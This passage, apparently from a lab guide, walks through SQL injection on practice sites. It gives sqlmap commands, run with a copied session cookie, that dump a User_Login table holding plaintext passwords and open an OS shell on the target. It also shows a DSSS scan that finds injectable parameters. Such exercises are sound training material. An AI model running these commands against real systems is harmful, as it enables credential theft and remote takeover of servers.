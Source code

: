 - Dump the contents of the User_Login table:
    ```bash
    sqlmap -u "http://www.vulnerablewebsite.com/viewprofile.aspx?id=l" --cookie="[copied cookie value]" -D vulnerabledatabase -T User_Login --dump
    ```

- Review the retrieved user information, including usernames and plaintext passwords.
- Verify the login credentials by logging in with a user's details.
- Obtain an OS shell using:
    ```bash
    sqlmap -u "http://www.vulnerablewebsite.com/viewprofile.aspx?id=l" --cookie="[copied cookie value]" --os-shell
    ```

- Follow the prompts to optimize DBMS delay responses and retrieve the hostname of the target machine.
- Explore further by running commands such as `TASKLIST` to view running tasks.
- For a list of available commands, type `help`.

### 2. Detect SQL Injection Vulnerabilities using Various SQL Injection Detection Tools

- SQL injection detection tools aid in identifying SQL injection attacks by monitoring HTTP traffic, SQL injection attack vectors, and assessing whether web applications or database code contain vulnerabilities. Developers play a crucial role in defending against SQL injection by configuring and developing applications securely. Best practices and countermeasures should be employed to prevent applications from succumbing to SQL injection attacks.

#### Detect SQL Injection Vulnerabilities using DSSS

- [Damn Small SQLi Scanner (DSSS)](https://github.com/stamparm/DSSS) is a highly functional SQL injection vulnerability scanner supporting both GET and POST parameters. Its capabilities extend to scanning web applications for various SQL injection vulnerabilities.

- Run DSSS and view available options:  
   ```bash
   python3 dsss.py -h
   ```

- Launch Firefox, and navigate to http://www.moviescope.com/ and login.

- View the Profile tab, note the URL, and inspect element as follows:
   - Right-click on the webpage, select Inspect Element.
   - Go to the Console tab, type `document.cookie`, and press Enter.

- Copy the cookie value, switch to the terminal, and execute DSSS with the following command:  
   ```bash
   python3 dsss.py -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[copied cookie value]"
   ```

- Review the scan result to identify SQL injection vulnerabilities.

- Copy the vulnerable website link from the result.

- Open a new Firefox tab, paste the link, and press Enter to confirm the vulnerability.
